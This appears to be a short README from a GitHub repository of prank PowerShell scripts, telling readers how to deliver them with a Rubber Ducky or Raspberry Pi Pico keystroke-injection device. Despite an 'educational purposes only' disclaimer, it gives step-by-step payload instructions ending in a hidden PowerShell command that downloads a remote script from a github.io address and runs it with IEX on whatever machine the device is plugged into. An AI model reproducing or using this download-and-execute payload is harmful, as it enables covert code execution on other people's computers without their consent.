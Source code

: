 # H1 Some powershell scripts to mess with people :)

**this is for educational purposes only i do not condone any malicous use of these scripts**

> This was primarely made to use with a rubber ducky/raspberry pi pico

# H2 How to use this with a rubber ducky.

- create a new file called payload.dd.
- start with `DELAY 500` (may needs to be bigger depends on how fast ur pc is).
- put in a `GUI r` to open run dialog.
- a new delay of +- 100 is required to make sure the run dialog opens before typing text.
- use `STRING powershell -NoP -NonI -W hidden IEX (New-Object Net.WebClient).DownloadString('https://creepyturnip.github.io/<the script you want>')` to open a hidden powershell that runs a script
- (replace `<script you want>` with the filename of the script you want to use for example: `mouseMove.ps1`)
